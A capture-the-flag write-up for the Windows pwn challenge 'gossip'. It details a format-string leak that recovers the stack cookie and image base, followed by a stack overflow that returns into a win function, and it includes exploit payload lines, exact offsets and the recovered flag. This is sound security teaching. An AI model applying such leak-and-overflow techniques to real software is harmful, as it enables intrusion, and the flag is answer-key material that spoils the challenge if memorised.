

# gossip

| Field | Value |
|---|---|
| Challenge | gossip |
| Category | Pwn |
| Team name | B2F1 |

gossip handed me a chatty little Windows binary, a "watercooler" program that wants to hear
my name, a secret, and my last words before it shuts up. I poked at the strings first and the
shape of the thing jumped out at me: there was a flag.txt, a FLAG: %s, and a win routine that
opens the flag file. So at heart this was a ret2win. The catch was that the binary is hardened,
which meant I'd have to earn my way there with a leak before I could jump anywhere.

## Challenge details and overview

- Supplied file(s) / service: gossips.exe (Windows x64 PE, mingw, 156,160 bytes,
      image base 0x140000000), served remotely over Wine at nc koala.nexsec.my PORT.
- Category: Pwn.
- Initial observation: A chatty "watercooler" binary prompts for a name, a secret, and
      last words. The strings include flag.txt, FLAG: %s, and a win routine that opens the
      flag file. Classic ret2win, gated by a leak because the binary is hardened.

## Enumeration and analysis

The first thing I did was look at the headers. Running objdump -x (and spotting
DllCharacteristics 0x8160) told me straight away that the binary was fully hardened:

- Magic: 020b (PE32+)
- AddressOfEntryPoint: 0x1660
- ImageBase: 0x140000000
- DllCharacteristics: HIGH_ENTROPY_VA | DYNAMIC_BASE (ASLR) | NX_COMPAT
- /GS stack cookie: main stores __security_cookie^rsp at [rsp+0x160]

So both ASLR and the stack cookie were standing between me and the flag. The good news
was that the win function at RVA 0x1000 (VA 0x140001000) opens flag.txt, reads it, and
prints FLAG: %s with no arguments, a clean ret2win target just sitting there:
sub_140001000: fopen("flag.txt","rb"); fread(buf,1,0xff,f); printf("FLAG: %s", buf);
Digging into the dialogue, I found it had two bugs I could lean on:

(A) Format string (info leak). The name and secret inputs are echoed through a printf
wrapper (sub_1400012E0, a vfprintf) using the user string as the format. Sending %p
conversions leaks stack contents. MSVCRT has no positional %N$ support, so leaks must
be read sequentially.

(B) Stack overflow (control). The third input ("last words") calls ReadFile(stdin, buf, 0x200)
into main's [rsp+0x50] with no bounds check, overrunning the saved cookie and return
address.

To actually land the overflow I needed the stack geometry of main. Reading its prologue
(push rbx ; sub rsp,0x170) and confirming against live /proc memory gave me:

- last-words buffer @ rsp+0x50
- saved /GS cookie @ rsp+0x160 → overflow offset 0x160-0x50 = 272
- saved return addr @ rsp+0x178 → overflow offset 0x178-0x50 = 296

Turns out the name buffer (rsp+0x38) surfaces at %p #7, so %p #N maps to
rsp+0x38+(N-7)*8. That lined things up nicely:

- %p #44 = saved cookie (rsp+0x160) → replay verbatim in the overflow
- %p #47 = saved RIP (rsp+0x178) == imagebase + 0x15F0

From here, subtracting 0x15F0 from leak #47 handed me the image base, which defeated
ASLR even though Wine randomises the load address.

## Format-string leak and ret2win

So I wrote the exploit (/workspace/ctf-pwn/exploit.py): it fires 48 %p conversions as the
secret, parses the |-separated leak, replays the cookie, and overflows into a ret2win. I
prepended one ret gadget (RVA 0x1332) so win is entered with rsp%16==8, which is what
the MSVC CRT's movaps expects.

Leak stage (secret) and index mapping:

- cookie = val(IDX_COOKIE): %p #44: saved __security_cookie^rsp (replay verbatim)
- saved_rip = val(IDX_RIP): %p #47: imagebase + 0x15F0
- base = saved_rip - SAVED_RIP_RVA
- win = base + WIN_RVA (0x1000)
- ret_align = base + RET_RVA (0x1332, clean ret for 16-byte alignment)

Overflow payload for the "last words" stage:

- pad(272) | cookie(8) | filler(16) | ret-gadget(8 @ saved RIP) | win(8)
- payload = b'A' * OFF_COOKIE (OFF_COOKIE = 272)
- payload += p64(cookie)
- payload += b'B' * (OFF_RIP - OFF_COOKIE - 8) (16 bytes of dead frame)
- payload += p64(ret_align) (saved RIP → realign)
- payload += p64(win) (→ ret2win)
- assert len(payload) == OFF_RIP + 16

## Flag retrieval and proof

Then I just pointed it at the live service: python3 exploit.py koala.nexsec.my PORT
The leak defeated ASLR and the cookie, the overflow returned through the alignment ret into
win(), and the process printed the real flag on its FLAG: line. One thing I was careful about:
the exploit only trusts the FLAG: line emitted by win() (printf("FLAG: %s", ...)). I ignored any
runtime decoys the service injects, whether a bogus inline nexsec26{, a "freeflag", a
whymir.xyz reference, or a "submit via POST" prompt; only the win()-printed value is the
answer.

## Recovered CTF flag

nexsec26{03ccb6b4e5b56b02ec06ff4522387ca3f1abdbb6ab2a013aeeb08ddf8a9b533f}

gossip exploit: format-string leak and ret2win

## Source Figures

